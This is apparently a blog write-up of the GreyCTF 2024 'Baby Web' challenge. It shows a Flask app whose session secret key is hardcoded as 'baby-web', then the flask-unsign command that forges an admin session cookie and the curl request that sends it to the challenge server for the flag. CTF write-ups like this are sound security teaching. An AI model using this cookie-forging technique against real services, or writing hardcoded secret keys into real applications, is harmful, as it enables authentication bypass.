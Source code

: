 ```yaml
---
title: Baby Web
author: yufong
categories: [GreyCTF 2024, Web]
date: 2024-04-20
date_time: 2024-04-20 13:57
tags: 
- python/flask
info:
  description: Flask session secret key leaked
  difficulty: 1
solved: yes
solution: "https://github.com/NUSGreyhats/greyctf24-challs-public/tree/main/quals/web/baby-web"
img_path: /_posts/Writeups/CTF/GreyCTF%202024/Web/Baby%20Web/attachments/
image:
  path: /_posts/Writeups/CTF/GreyCTF%202024/Web/Baby%20Web/attachments/../../Beautiful%20Styles/attachments/Beautiful%20Styles-20240510000105525.png
  width: 1000   # in pixels
  height: 400   # in pixels
---
```


## Challenge Description

{{page.info.description}}

## Source Code Analysis

```
import os
from flask import Flask, render_template, session

app = Flask(__name__)
app.secret_key = "baby-web"
FLAG = os.getenv("FLAG", r"grey{fake_flag}")


@app.route("/", methods=["GET"])
def index():
    # Set session if not found
    if "is_admin" not in session:
        session["is_admin"] = False
    return render_template("index.html")


@app.route("/admin")
def admin():
    # Check if the user is admin through cookies
    return render_template("admin.html", flag=FLAG, is_admin=session.get("is_admin"))

#### Some other hidden code ###


if __name__ == "__main__":
    app.run(debug=True)

```
>Flask secret is given
{: .prompt-info}

## Solution
- Generate token with secret
	```
	┌──(venv3)─(root💀kali)-[~/boxes/nusgreyhat/WEB/Baby Web]
	└─$ flask-unsign --sign --secret baby-web --cookie "{'is_admin': True}"
	
	eyJpc19hZG1pbiI6dHJ1ZX0.ZiNXFw.WRsAhM4YuAbaSdsKlkG6EXWZFrU
	```
- Get Flag
	```
	┌──(root💀kali)-[~/…/ctf/greyCTF2024/WEB/Fearless Concurrency]
	└─$ curl -H "Cookie: session=eyJpc19hZG1pbiI6dHJ1ZX0.ZiNXFw.WRsAhM4YuAbaSdsKlkG6EXWZFrU" http://challs.nusgreyhats.org:33338/flag
	Here is your flag: <code>grey{0h_n0_mY_5up3r_53cr3t_4dm1n_fl4g}</code>                
	```